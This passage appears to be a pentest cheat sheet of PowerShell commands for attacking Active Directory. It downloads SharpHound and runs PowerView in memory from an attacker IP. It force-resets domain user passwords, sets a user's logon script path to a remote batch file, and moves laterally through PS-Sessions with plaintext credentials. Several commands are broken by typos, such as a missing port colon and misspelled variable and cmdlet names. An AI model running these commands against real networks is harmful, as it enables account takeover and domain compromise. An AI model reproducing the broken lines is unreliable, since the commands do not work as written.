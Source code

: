 ```PowerShell
# Sharphound.exe
iwr 'http://192.168.45.222:$PORT/SharpHound.exe' -OutFile 'C:\Windows\Tasks\SharpHound.exe'
```

---

### Force to Reset Password

```PowerShell
iex(new-object net.webclient).downloadstring('http://192.168.45.222$PORT/PowerView.ps1');
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force;
$Cred = New-Object System.Management.Automation.PSCredential ("DomainName\UserName", (ConvertTo-SecureString "FGjksdff89sdfj" -AsPlainText -Force));
Set-DomainUserPassword -Identity jeff -AccountPassword $UserPasword -Credential $Cred;

$SecPassword = ConvertTo-SecureString '<ExistingPassword>' -AsPlainText -Force;
$Cred = New-Object System.Management.Automation.PSCredential ("DomainName\UserName", $SecPassword);
Set-DomainUserPasword-Identity jeff -AccountPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Credential $Cred -Verbose;

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force;
$Cred = New-Object System.Management.Automation.PSCredential('DomainName\UserName', $SecPassword);
Set-DomainObject -Identity <UserName> -Set @{"scriptpath"="\\$ip\share\<file>.bat"} -Credential $Cred -Verbose # batfile can contain powershell command.
```

---

### PS-Session (Lateral Movement)
```PowerShell
# create a credential and use it to move laterally.
# we need to have a username & password for this to work.
$username = 'jen'
$password = 'Nexus123!'
$secureString = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
# ---------------------- #
# PS SESSION CREATION    #
# ---------------------- #
New-PSSession -ComputerName 192.168.214.73 -Credential $credential # computer you want to move to.
# Output
# Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
# -- ----            ------------    ------------    -----         -----------------     ------------
# 1 WinRM1          192.168.214.72  RemoteMachine   Opened        Microsoft.PowerShell     Available
Enter-PSSession 1 # session ID [1]
```

---
